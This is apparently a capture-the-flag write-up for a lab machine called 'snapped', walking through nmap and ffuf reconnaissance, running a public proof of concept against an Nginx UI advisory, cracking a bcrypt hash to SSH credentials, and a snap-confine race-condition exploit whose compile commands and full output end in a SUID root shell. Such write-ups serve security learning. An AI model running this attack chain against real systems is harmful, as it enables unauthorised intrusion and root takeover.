







# Footprint

I started with a basic **nmap** scan, which revealed these ports:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://snapped.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

Pretty standard ports. Next, I decided to fuzz for v-hosts using  `ffuf -u "http://snapped.htb/" -H 'Host: FUZZ.snapped.htb' -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 154`

It revealed **admin** v-host



There was nothing interesting on `snapped.htb`, just the frontend.



So I decided to check `admin.snapped.htb`. It was some sort of **Nginx UI**



# Foothold

I managed to find its [repository](https://github.com/0xJacky/nginx-ui) and an interesting [vulnerability](https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762).

I downloaded the PoC, and executed it : `python3 poc.py --target http://admin.snapped.htb/ --out backup.bin --decrypt`

There, I found **SQLite database** in which I discovered encrypted credentials.



I quickly cracked it using hashcat (`hashcat -m 3200 ./hashes.txt /opt/rockyou.txt`)
`$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark`

And got my first creds: `jonathan / linkinpark`

Surprisingly, they worked for SSH.


# PrivEsc

After a quick recon, I found that the system uses a vulnerable **snap** version.



I found a [PoC](https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE) for this one quickly and proceeded to execute it.
I decided to go with the **capabilities path** (because, for some reason, the **SUID** path didn't work)

In a few words, it's a **race-condition** type of vulnerability that gains control of `/var/lib/snapd/mount/snap.snap-store.user-fstab` and executes a **SUID** binary with a preloaded `librootshell.so` that creates a **SUID bash**.

I started with compilation.

```
gcc -O2 -static -o exploit exploit_caps.c
gcc -shared -fPIC -nostartfiles -o librootshell.so librootshell_caps.c
```

Then uploaded binaries on the lab



And triggered exploit

```
(remote) jonathan@snapped:/home/jonathan$ ./exploit ./librootshell.so
================================================================
CVE-2026-3888 — snap-confine / systemd-tmpfiles Capabilities LPE
================================================================
[*] Payload: /home/jonathan/./librootshell.so (14400 bytes)

[Phase 1] Entering snap-store sandbox...
[+] Inner shell PID: 6751

[Phase 2] Waiting for .snap deletion...
[*] Polling (up to 10 days on Ubuntu 25.10).
[*] Hint: use -s to skip.
[+] .snap deleted.

[Phase 3] Destroying cached mount namespace...
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_KcGkoq//dev: No such file or directory
[+] Namespace destroyed (.mnt gone).

[Phase 4] Setting up and running the race...
[*]   Working directory: /proc/6751/cwd
[*]   Building .snap and .exchange...
[*]   17 entries copied to exchange directory
[*]   Starting race...
[*]   Monitoring snap-confine (child PID 6887)...

[!]   TRIGGER — swapping directories...
[+]   SWAP DONE — race won!
[+]   Race won. /var/lib/snapd is now user-owned.

[Phase 5] Setting up payload and user-fstab...
[*]   Copying /etc to .snap/etc...
[*]   Writing ld.so.preload...
[*]   Writing user-fstab...
[*]   Copying librootshell.so to /tmp/...
[*]   Copying busybox...
[*]   Writing escape script...
[*]   Swapping var/lib back (restoring original snapd metadata)...
[+]   Payload ready.

[Phase 6] Triggering root via SUID binary in /tmp/.snap...
[*]   Executing: snap-confine → /tmp/.snap/var/lib/snapd/hostfs/snap/core22/current/usr/bin/su
[*]   Exit status: 0

[Phase 7] Verifying...
[+] SUID root bash: /var/snap/snap-store/common/bash (mode 4755)
[*] Cleaning up background processes...

================================================================
  ROOT SHELL: /var/snap/snap-store/common/bash -p
================================================================
```
